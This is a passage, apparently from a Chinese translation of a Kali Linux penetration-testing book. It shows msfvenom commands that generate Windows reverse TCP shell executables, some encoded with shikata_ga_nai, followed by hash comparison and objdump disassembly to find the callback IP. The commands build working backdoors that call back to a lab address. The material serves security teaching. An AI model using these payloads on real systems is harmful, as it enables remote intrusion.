 强调的是 *万无一失*。从中可以得到的启示是，你必须尽可能了解你的目标环境。我们很容易沉迷于疯狂的打字黑客技术，以至于忘记了传统的侦察工作。

但我跑题了。我们来快速看看 **x86/shikata_ga_nai** 编码器，感受一下它的工作原理。我们不会深入探讨编码器内部的机制，但这是一个回顾在 Kali 中检查 Windows 可执行文件汇编的好机会。

## 在 Kali 中的 Windows 二进制文件反汇编

我们要做的事情非常简单——生成三个 Windows 二进制文件。两个文件将使用完全相同的参数——我们将执行相同的**msfvenom**命令两次，输出到不同的文件名以便比较——但是会使用**x86/shikata_ga_nai**编码器。然后，我们将生成相同的 shellcode 作为 Windows 二进制文件，但不使用任何编码器。负载是一个简单的反向 TCP shell，指向我们的主机**192.168.108.117**，端口为**1066**：

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell1.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell2.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --format exe > shell_noencode.exe

使用**sha256sum**比较两个编码后的 payload EXE 文件。在不查看单个字节的情况下，我们可以看到每次迭代的代码都是唯一的：

![图 12.5 – 比较我们两个编码后的恶意软件 PE 文件的指纹](img/Figure_12.05_B17616.jpg)

图 12.5 – 比较我们两个编码后的恶意软件 PE 文件的指纹

在 Kali 中分析二进制文件有两个不可或缺的工具：**xxd**和**objdump**。**xxd**是一个十六进制转储工具，它将二进制文件的原始内容以十六进制形式输出。**objdump**是一个更通用的工具，用于分析对象文件，但它的功能使其成为一个便捷的反汇编器。将这些工具的强大功能与**grep**结合，你就有了一种快速粗略地查找二进制文件中特定模式的方法。让我们从对未编码的 Windows 后门进行反汇编开始：

# objdump -D shell_noencode.exe -M intel

请注意，我使用的是 Intel 格式的反汇编；毕竟这是一个 Windows 可执行文件。即使是 Windows 爱好者，在 Kali 上查看反汇编也能感到得心应手。这是一个很大的输出——请拿杯咖啡，慢慢浏览。在此期间，让我们看看能否在这个文件中找到**LHOST**的 IP 地址。我们知道**192.168.108.117**的十六进制表示是**c0.a8.6c.75**，所以让我们使用**grep**来找出它：

# objdump -D shell_noencode.exe -M intel | grep "c0 a8 6c 75"

